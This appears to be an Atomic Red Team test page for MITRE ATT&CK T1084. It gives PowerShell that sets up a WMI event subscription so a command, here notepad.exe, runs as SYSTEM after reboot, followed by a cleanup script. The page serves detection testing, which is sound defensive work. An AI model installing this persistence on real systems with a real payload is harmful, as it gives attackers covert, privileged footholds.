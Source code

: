 # Windows Management Instrumentation Event Subscription

## MITRE ATT&CK Technique:
[T1084](https://attack.mitre.org/wiki/Technique/T1084)

### Persistence

#### Example:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter
Consumer = [Ref] $Consumer
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

### After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.


### Cleanup:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

#### References

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545
